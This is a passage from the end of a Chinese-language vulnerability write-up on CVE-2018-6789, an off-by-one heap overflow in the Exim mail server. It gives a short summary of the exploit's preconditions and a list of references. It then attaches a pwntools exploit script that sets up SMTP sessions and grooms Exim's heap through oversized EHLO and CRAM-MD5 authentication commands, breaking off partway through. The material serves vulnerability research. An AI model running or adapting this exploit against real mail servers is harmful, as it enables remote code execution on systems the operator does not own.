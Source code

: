 

## 6 总结与思考

该漏洞利用条件是比较苛刻的，exim的配置必须开启CRAM-MD5认证，其次exim的启动参数不同会造成堆布局不同，还有必须获取exim运行时堆的地址，才能准确覆盖acl字符串，docker环境中可以选择爆破，但真实环境中在不知道exim程序基地址的情况下采用爆破显然不大可取。如果大家有什么好的思路可以获取exim的堆地址，可以交流一下。



## 7 参考

[http://www.freebuf.com/vuls/166519.html](http://www.freebuf.com/vuls/166519.html)<br>[https://github.com/skysider/VulnPOC/tree/master/CVE-2018-6789](https://github.com/skysider/VulnPOC/tree/master/CVE-2018-6789)<br>[https://bbs.pediy.com/thread-225986.htm](https://bbs.pediy.com/thread-225986.htm)<br>[https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/](https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/)<br>[https://paper.seebug.org/557/](https://paper.seebug.org/557/)



## 附EXP

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
from base64 import b64encode
def ehlo(tube, who):
    time.sleep(0.2)
    try:
       tube.sendline("ehlo "+who)
       tube.recvline()
    except:
       print("Error sending ehlo data")

def docmd(tube, command):
    time.sleep(0.2)
    try:
       tube.sendline(command)
       tube.recvline()
    except:
       print("Error sending docmd data")

def auth(tube, command):
    time.sleep(0.2)
    try:
       tube.sendline("AUTH CRAM-MD5")
       tube.recvline()
       time.sleep(0.2)
       tube.sendline(command)
       tube.recvline()
    except:
       print("Error sending auth data")

def execute_command(acl_chunk, command):
    context.log_level='warning'
    s = remote(ip, 25)
    # 1. put a huge chunk into unsorted bin 
    print("[+]1.send ehlo, make unsorted binn")
    ehlo(s, "a"*0x1000) # 0x2020
    ehlo(s, "a"*0x20)
    raw_input("make unsorted bin: 0x7040n")

    # 2. cut the first storeblock by unknown command
```